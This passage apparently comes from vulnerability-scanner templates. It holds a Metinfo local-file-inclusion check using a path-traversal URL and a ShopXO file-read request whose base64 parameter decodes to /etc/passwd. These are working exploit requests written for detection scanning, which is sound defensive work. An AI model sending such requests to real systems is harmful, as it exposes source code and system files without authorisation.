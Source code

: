 - part - body
- words
  1. ctpDataSource.password
- condition - and

---

# Metinfo - Local File Inclusion

## Description

- Metinfo is susceptible to local file inclusion.
- severity - high
- tags - metinfo,cnvd,cvnd2018,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/include/thumb.php?dir=http\..\admin\login\login_check.php

### Matchers

**Type - word**

- part - body
- words
  1. \<?php
  2. login_met_cookie($metinfo_admin_name);
- condition - and

---

# ShopXO Download File Read

- severity - high
- tags - shopxo,lfi,cnvd,cnvd2021

## Requests

### Step - 1

```
GET /public/index.php?s=/index/qrcode/download/url/L2V0Yy9wYXNzd2Q=  HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

```
